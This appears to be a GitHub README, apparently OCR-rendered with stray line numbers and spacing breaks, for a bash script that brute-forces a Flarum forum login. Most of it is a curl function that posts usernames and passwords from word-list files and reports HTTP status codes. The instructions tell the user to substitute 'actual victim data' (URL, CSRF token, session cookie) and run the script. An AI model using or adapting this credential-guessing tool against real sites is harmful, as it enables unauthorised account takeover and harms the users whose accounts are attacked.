 # Overview
Brute force using curl for user/passford fields 
<img src="https://github.com/Alexandersfg4/pictures/blob/master/Screenshot%202021-02-07%20at%2015.03.01.png">
## Getting started
1. Change url/headers/X-CSRF-Token/cookies to actual victim data
```
Request (){
  5 curl -o /dev/null -s -w "%{http_code}\n" -X POST -H "Content-Type: applicat    ion/json" \
  6         -H "Accept: */*" \
  7         -H "Accept-Encoding: gzip, deflate" \
  8         -H "Accept-Language: en-us" \
  9         -H "Origin: http://172.16.4.3:8080" \
 10         -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) App    leWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15" \
 11         -H "Connection: keep-alive" \
 12         -H "Referer: http://172.16.4.3:8080/" \
 13         -H "X-CSRF-Token: qheH4dzPl0nSkjPlkIZtm3pIfX4pgjaAxVlWFI15" \      
 14         -H "Cookie: flarum_session=C9J70piUW3WDKAee3sf619I744n9ImW3ecPv3Lai    " \
 15         -d "{\"identification\":\"$user_in_file\",\"password\":\"$password_    in_file\",\"remember\":false}" \
 16         http://172.16.4.3:8080/login
 17 }
```
1. Add data to passwords.txt and usernames.txt files
1. And than run the script ``` ./bruteforce.sh ```
